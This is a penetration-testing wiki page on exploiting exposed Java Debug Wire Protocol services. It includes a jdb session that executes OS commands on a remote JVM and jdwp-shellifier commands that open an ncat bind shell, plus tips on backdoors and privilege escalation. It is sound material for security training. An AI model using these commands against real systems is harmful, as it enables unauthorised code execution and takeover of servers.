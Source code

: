 ```yaml
---
icon: java
description: Java Debug Wire Protocol
---
```


# JDWP

<mark style="color:purple;">**Java Debug Wire Protocol (JDWP) -**</mark>**&#x20;**<mark style="color:red;">**Remote Code Execution**</mark>

Java Debugging Wire Protocol (JDWP) is the lowlevel protocol used for communication between a debugger and a Java Virtual Machine (JVM) as outlined in the Java Platform Debugger Architecture. It is often used to facilitate remote debugging of a JVM over TCP/IP and can be identified by the initial protocol handshake ascii string "JDWP-Handshake", sent first by the client and responded to by the server. "jdb" is a proof-of-concept JDWP capable debugger included in Oracle JDK and OpenJDK which can be used to interact with remote JDWP capable services. Typically this service runs on TCP port 8000 however it can be found to run on arbitrary TCP ports and is sometimes found enabled inadvertantly on servers running Java services. It is possible to use this utility to exploit remote JVM's and execute arbitrary Java code. An example shown here outlines how to leverage this weakness to execute arbitrary host OS commands in the context of the JVM.

```
$ jdb -attach x.x.x.x:8000
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 

Information leaks can be leveraged to determine details about the remote OS
platform and Java installation configuration through the "classpath" command.

> classpath
base directory: C:\Windows\system32
classpath: [ ** MASKED ** list of jar's loaded in remote JVM ]
bootclasspath: [ ** MASKED ** list of JRE paths ]
> 

jdb is capable of performing remote object creation and method invokation from
within the CLI using the "print" "dump" and "eval" commands with the "new"
keyword. To determine the classes and methods available use the "classes" and
then "methods" on the corrosponding class. 

> classes
...
java.lang.Runtime
...
> methods java.lang.Runtime
...
java.lang.Runtime exec(java.lang.String[])
...

It is often necessary to set the JDB context to be within a suspended thread or
breakpoint before attempting to create a new remote object class. Using the
"trace go methods" function can be used to identify a candidate for a breakpoint
and then "stop in your.random.class.method()" to halt the execution of a running
thread. When the execution is halted you can use "print new" to create your
class and invoke methods such as in the following example.

Breakpoint hit: "thread=threadname",your.random.class.method(), line=745 bci=0
threadname[1] print new java.lang.Runtime().exec("cmd.exe /c dir")
new java.lang.Runtime().exec("cmd.exe /c dir") = "java.lang.ProcessImpl@918502"
threadname[1] cont
> 

Exploitation success will be determined from the output of the JDB process as
functions returning "null" or errors about "unsuspended thread state" would
indicate that exploitation was unsuccessful, however in the example above we can
see that the java created a new object "java.lang.ProcessImpl@918502" indicating
the "cmd.exe /c dir" was executed with success. On Linux this may need adjusting
to "java.lang.Runtime.getRuntime().exec()" however see the method / class
enumeration when attempting to exploit this flaw.


Your java will be executed in the context of the running JVM application, this
has been identified on services running as both "root" (*nix) and "SYSTEM"
(win32) in the wild. 
```

#### <mark style="color:purple;">POC:</mark>

{% embed url="https://www.exploit-db.com/exploits/46501" %}

```
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the \*\*Java Debug Wired Protocol \*\*and you may be able to move laterally or even **escalate privileges** (if executed as root).

#### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol" %}

{% embed url="https://ioactive.com/hacking-java-debug-wire-protocol-or-how/" %}

